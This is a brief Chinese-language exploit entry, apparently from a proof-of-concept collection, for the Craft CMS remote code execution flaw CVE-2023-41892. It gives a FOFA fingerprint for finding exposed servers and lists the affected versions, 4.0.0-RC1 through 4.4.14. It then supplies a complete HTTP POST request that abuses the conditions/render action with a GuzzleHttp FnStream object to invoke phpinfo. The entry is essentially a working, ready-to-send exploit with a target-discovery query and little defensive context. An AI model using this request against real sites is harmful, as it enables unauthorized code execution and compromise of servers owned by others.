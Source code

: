 ## Craft CMS远程代码执行漏洞CVE-2023-41892
fofa：icon_hash="-47932290"
![image](https://github.com/user-attachments/assets/42bff72a-08ab-4ac4-ada6-f2830d8868e7)

## 影响版本
Craft CMS >= 4.0.0-RC1
Craft CMS <= 4.4.14

## exp
```
POST /index.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

action=conditions/render&test[userCondition]=craft\elements\conditions\users\UserCondition&config={"name":"test[userCondition]","as xyz":{"class":"\\GuzzleHttp\\Psr7\\FnStream",    "__construct()": [{"close":null}],"_fn_close":"phpinfo"}}
```

